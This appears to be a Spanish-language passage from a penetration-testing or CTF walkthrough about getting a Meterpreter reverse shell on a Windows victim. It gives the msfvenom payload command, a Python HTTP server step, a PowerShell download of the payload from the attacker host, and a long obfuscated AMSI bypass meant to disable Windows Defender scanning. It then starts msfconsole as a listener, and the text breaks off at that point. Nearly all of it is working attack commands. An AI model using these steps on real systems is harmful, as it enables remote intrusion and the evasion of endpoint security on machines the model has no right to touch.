 Vamos a obtener una `shell` mediante `metasploit` con `meterpreter`.

### Reverse Shell Metasploit

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f psh-reflection > shell.ps1
```

Ahora vamos abrir un servidor de `python3`:

```shell
python3 -m http.server 8000
```

En la maquina victima ejecutaremos lo siguiente:

```powershell
cd C:\Users\nesus\Downloads
Invoke-WebRequest -Uri "http://<IP>:8000/shell.ps1" -OutFile "C:\Users\nesus\Downloads\shell.ps1"
```

Ahora vamos a `bypassear` el modulo `AMSI` del `Windows Defender` con el siguiente codigo:

URL = [Bypass Modulo AMSI Pagina](https://d1se0.github.io/AMSI-Bypass-Generator/index.html)

```powershell
$JmRIgg7pbjB=$null;$J5xhHEldAdGmGsdjV=[System.Runtime.InteropServices.Marshal]::AllocHGlobal((9076+6814-6814));$kdiojlldvsqhsvfjwl="+[ChAr](104+62-62)+[cHAR]([bYte]0x75)";[Threading.Thread]::Sleep(457);[Ref].Assembly.GetType("System.$([CHAr]([byTE]0x4d)+[chAr](24+73)+[cHAr](44+66)+[Char](97+66-66)+[chaR]([BYte]0x67)+[CHAR]([bYtE]0x65)+[cHAr](109+62-62)+[cHaR]([BYTe]0x65)+[cHaR]([ByTe]0x6e)+[cHar]([bYtE]0x74)).$([chaR]([bYTe]0x41)+[CHAR]([BYTe]0x75)+[CHar](116)+[chAr]([BYTE]0x6f)+[CHaR](78+31)+[chAr]([byTE]0x61)+[CHar]([Byte]0x74)+[char](6+99)+[Char](111)+[Char](110*74/74)).$([CHaR]([byte]0x41)+[char](5+104)+[ChaR]([bytE]0x73)+[chAR](105*63/63)+[cHaR](85*29/29)+[CHAR](80+36)+[CHaR](52+53)+[chAR]([BYTe]0x6c)+[ChaR](115*74/74))").GetField("$([ChaR]([bYTe]0x61)+[CHAR](109*65/65)+[Char]([byte]0x73)+[ChaR](105)+[cHar]([bYte]0x53)+[cHar]([byTE]0x65)+[ChaR](115*4/4)+[chaR](115+11-11)+[chAR](105*5/5)+[chAr](111*9/9)+[char]([byte]0x6e))", "NonPublic,Static").SetValue($JmRIgg7pbjB, $JmRIgg7pbjB);[Ref].Assembly.GetType("System.$([CHAr]([byTE]0x4d)+[chAr](24+73)+[cHAr](44+66)+[Char](97+66-66)+[chaR]([BYte]0x67)+[CHAR]([bYtE]0x65)+[cHAr](109+62-62)+[cHaR]([BYTe]0x65)+[cHaR]([ByTe]0x6e)+[cHar]([bYtE]0x74)).$([chaR]([bYTe]0x41)+[CHAR]([BYTe]0x75)+[CHar](116)+[chAr]([BYTE]0x6f)+[CHaR](78+31)+[chAr]([byTE]0x61)+[CHar]([Byte]0x74)+[char](6+99)+[Char](111)+[Char](110*74/74)).$([CHaR]([byte]0x41)+[char](5+104)+[ChaR]([bytE]0x73)+[chAR](105*63/63)+[cHaR](85*29/29)+[CHAR](80+36)+[CHaR](52+53)+[chAR]([BYTe]0x6c)+[ChaR](115*74/74))").GetField("$([CHAr]([BytE]0x61)+[cHar]([BytE]0x6d)+[cHaR]([BYte]0x73)+[cHaR](105)+[cHaR](67+51-51)+[cHaR](111+56-56)+[cHar]([bytE]0x6e)+[cHar]([byTe]0x74)+[ChAR](101*11/11)+[char]([bytE]0x78)+[cHar]([bYte]0x74))", "NonPublic,Static").SetValue($JmRIgg7pbjB, [IntPtr]$J5xhHEldAdGmGsdjV);$ilpowzzhhv="+('cmmîqxácìqmjzvkècmswìf'+'st').NORmaLIzE([cHar](70)+[char](111)+[cHaR](114*77/77)+[char](109+12-12)+[Char](68*1/1)) -replace [CHAR]([ByTE]0x5c)+[chaR]([ByTe]0x70)+[char]([bYTe]0x7b)+[cHAR]([ByTe]0x4d)+[cHaR]([ByTe]0x6e)+[CHAr]([bYtE]0x7d)";[Threading.Thread]::Sleep(1044)
```

Antes de ejecutar la `shell.ps1` vamos a ponernos a la escucha:

```shell
msfconsole -q
```

Vemos a utilizar el modulo de esucha:
